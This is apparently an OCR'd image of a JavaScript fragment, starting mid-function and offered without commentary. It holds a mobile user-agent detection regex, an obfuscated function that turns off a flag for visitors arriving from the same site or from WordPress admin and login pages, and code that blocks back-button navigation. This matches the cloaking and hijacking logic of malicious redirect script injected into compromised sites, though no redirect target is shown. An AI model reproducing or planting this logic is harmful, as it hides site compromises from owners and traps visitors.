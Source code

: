     (function(a,b){if(/(android|bb\d+|meego).+mobile|avantgo|bada\/|blackberry|blazer|compal|elaine|fennec|hiptop|iemobile|ip(hone|od)|iris|kindle|lge |maemo|midp|mmp|mobile.+firefox|netfront|opera m(ob|in)i|palm( os)?|phone|p(ixi|re)\/|plucker|pocket|psp|series(4|6)0|symbian|treo|up\.(browser|link)|vodafone|wap|windows ce|xda|xiino/i.test(a)||/1207|6310|6590|3gso|4thp|50[1-6]i|770s|802s|a wa|abac|ac(er|oo|s\-)|ai(ko|rn)|al(av|ca|co)|amoi|an(ex|ny|yw)|aptu|ar(ch|go)|as(te|us)|attw|au(di|\-m|r |s )|avan|be(ck|ll|nq)|bi(lb|rd)|bl(ac|az)|br(e|v)w|bumb|bw\-(n|u)|c55\/|capi|ccwa|cdm\-|cell|chtm|cldc|cmd\-|co(mp|nd)|craw|da(it|ll|ng)|dbte|dc\-s|devi|dica|dmob|do(c|p)o|ds(12|\-d)|el(49|ai)|em(l2|ul)|er(ic|k0)|esl8|ez([4-7]0|os|wa|ze)|fetc|fly(\-|)|g1 u|g560|gene|gf\-5|g\-mo|go(\.w|od)|gr(ad|un)|haie|hcit|hd\-(m|p|t)|hei\-|hi(pt|ta)|hp( i|ip)|hs\-c|ht(c(\-| ||a|g|p|s|t)|tp)|hu(aw|tc)|i\-(20|go|ma)|i230|iac( |\-|\/)|ibro|idea|ig01|ikom|im1k|inno|ipaq|iris|ja(t|v)a|jbro|jemu|jigs|kddi|keji|kgt( |\/)|klon|kpt |kwc\-|kyo(c|k)|le(no|xi)|lg( g|\/(k|l|u)|50|54|\-[a-w])|libw|lynx|m1\-w|m3ga|m50\/|ma(te|ui|xo)|mc(01|21|ca)|m\-cr|me(rc|ri)|mi(o8|oa|ts)|mmef|mo(01|02|bi|de|do|t(\-| |o|v)|zz)|mt(50|p1|v )|mwbp|mywa|n10[0-2]|n20[2-3]|n30(0|2)|n50(0|2|5)|n7(0(0|1)|10)|ne((c|m)\-|on|tf|wf|wg|wt)|nok(6|i)|nzph|o2im|op(ti|wv)|oran|owg1|p800|pan(a|d|t)|pdxg|pg(13|\-([1-8]|c))|phil|pire|pl(ay|uc)|pn\-2|po(ck|rt|se)|prox|psio|pt\-g|qa\-a|qc(07|12|21|32|60|\-[2-7]|i\-)|qtek|r380|r600|raks|rim9|ro(ve|zo)|s55\/|sa(ge|ma|mm|ms|ny|va)|sc(01|h\-|oo|p\-)|sdk\/|se(c(\-|0|1)|47|mc|nd|ri)|sgh\-|shar|sie(\-|m)|sk\-0|sl(45|id)|sm(al|ar|b3|it|t5)|so(ft|ny)|sp(01|h\-|v\-|v )|sy(01|mb)|t2(18|50)|t6(00|10|18)|ta(gt|lk)|tcl\-|tdg\-|tel(i|m)|tim\-|t\-mo|to(pl|sh)|ts(70|m\-|m3|m5)|tx\-9|up(\.b|g1|si)|utst|v400|v750|veri|vi(rg|te)|vk(40|5[0-3]|\-v)|vm40|voda|vulc|vx(52|53|60|61|70|80|81|83|85|98)|w3c(\-| )|webc|whit|wi(g |nc|nw)|wmlb|wonu|x700|yas\-|your|zeto|zte\-/i.test(a.substr(0,4)))check = true})(navigator.userAgent||navigator.vendor||window.opera);
    return check;
}






function af9134c05a9333fef3507f048e31621f01ccbdd9c(){


    if(sdraazjzibkirp){
        var a=document.createElement('a');
        a.href=document.referrer;
        a.hostname;

        if(document.referrer !== undefined && document.referrer.length > 0 && a.hostname == window.location.hostname){
            sdraazjzibkirp = false;
        }
    }









    if(document.referrer.indexOf('wp-admin') > -1 || document.referrer.indexOf('wp-login') > -1) {
        sdraazjzibkirp = false;
    }


}


(function() {
              if (!window.addEventListener)
                  return;
              var blockPopstateEvent = document.readyState!='complete';
              window.addEventListener('load', function() {
                  setTimeout(function(){ blockPopstateEvent = false; }, 0);
              }, false);
              window.addEventListener('popstate', function(evt) {
                  if (blockPopstateEvent && document.readyState=='complete') {
                      evt.preventDefault();
                      evt.stopImmediatePropagation();
                  }
              }, false);
})();
